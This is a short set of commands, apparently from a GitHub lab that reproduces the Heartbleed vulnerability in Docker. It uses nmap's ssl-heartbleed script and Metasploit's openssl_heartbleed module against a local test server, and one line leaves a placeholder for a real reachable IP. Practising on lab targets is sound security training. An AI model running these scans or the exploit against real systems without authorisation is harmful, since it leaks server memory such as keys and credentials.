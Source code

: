 # Start web server
docker-compose up -d web-server

# Scan web server using nmap from the local machine
sudo nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1


# Scan heartbleed vulnerability from the attacker container
docker-compose run nmap -sV -p 443 --script=ssl-heartbleed web-server

docker run --rm -it instrumentisto/nmap -sV -p 443 --script=ssl-heartbleed real-ip-address(reachable)


# Run Metasploit console in a container
docker run --rm -it metasploitframework/metasploit-framework ./msfconsole

use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS web-server
set RPORT 443
exploit


# Install Metasploit on Linux / macOS (AWS Ubuntu)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
# Run Metasploit on Linux / macOS (AWS Ubuntu)
msfconsole
# From there, the program will ask you a couple of questions and will ask for a username and
# password. From there, the program will successfully start and we can get down to business.
# We will input the following to setup our program to target for the Heartbleed bug:
use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS 127.0.0.1
set RPORT 8443
exploit








# No longer needed: start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash

